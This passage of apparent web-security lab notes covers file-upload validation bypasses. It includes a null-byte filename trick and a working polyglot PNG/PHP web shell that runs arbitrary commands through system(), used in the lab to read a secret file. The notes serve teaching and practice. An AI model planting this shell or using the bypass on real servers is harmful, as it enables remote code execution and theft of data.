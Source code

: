 You can log in to your own account using the following credentials: wiener:peter 
```
Content-Disposition: form-data; name="avatar"; filename="s.php%00.png"
```

## Flawed validation of the file's contents

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes FF D8 FF.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata. 

### Lab: Remote code execution via polyglot web shell upload
        
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```html
Content-Disposition: form-data; name="avatar"; filename="s.php"
Content-Type: image/png

PNG

   
IHDR         ýoHÃ   sBITÛáOà   3IDATHíÌ1  À°Â¸L/?;A·ª®ng³«{~¹>/Cr
Á    IEND®B`
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
## Exploiting file upload race conditions
